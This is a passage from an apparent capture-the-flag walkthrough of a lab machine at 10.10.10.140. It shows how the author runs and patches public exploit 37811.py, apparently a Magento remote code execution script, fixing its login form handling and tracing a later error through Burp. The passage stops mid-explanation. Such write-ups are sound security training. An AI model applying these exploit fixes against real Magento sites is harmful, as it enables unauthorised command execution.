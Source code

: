 As per the included instructions, run the script using the following command:

```text
# python3 %s <target> <payload>
python 37811.py  http://10.10.10.140/index.php "whoami"
```

We get a “mechanize.\_form\_controls.ControlNotFoundError”. We run it through Burp like we did previously and we find out that it’s not even logging in with the admin credentials we created.

After spending some time googling the error, I found [a post](https://stackoverflow.com/questions/35226169/clientform-ambiguityerror-more-than-one-control-matching-name) on stackoverflow stating that the issue is that “there is only one form from the code provided and multiple username, passwords fields which is where the Ambiguous error comes from”. Therefore, we need to use and index parameter for selecting the form. Make the following changes to the code.

```text
br.select_form(nr=0)#Comment out the following code
#br.form.new_control('text', 'login[username]', {'value': username})  
#br.form.fixup()
#br['login[username]'] = username
#br['login[password]'] = password#Add the following code
userone = br.find_control(name="login[username]", nr=0)
userone.value = username
pwone = br.find_control(name="login[password]", nr=0)
pwone.value = password
```

Let’s run it again. This time we get a different error.

```text
Traceback (most recent call last):
  File "37811.py", line 74, in <module>
    tunnel = tunnel.group(1)
AttributeError: 'NoneType' object has no attribute 'group'
```

Let’s try and figure out what the error means using Burp. The script already contains code that allows you to send a traffic through a proxy.

```text
#uncomment this line
br.set_proxies({"http": "localhost:8080"})
```

In the _HTTP history_ sub tab, we can see that the script is making 5 requests.

![](https://miro.medium.com/max/1399/1*XZuIrXMnpAlOmPGzr3c2xg.png)

The last request it makes before it reaches an error is the following.

![](https://miro.medium.com/max/1420/1*-OZRLXZ3AWML592_-WLooA.png)

Notice that the POST request is setting a period of 7 days \(7d in the URL\), however, that’s generating a response of “No Data Found”.

Now, if we go back to the error, it was generated in line 74.
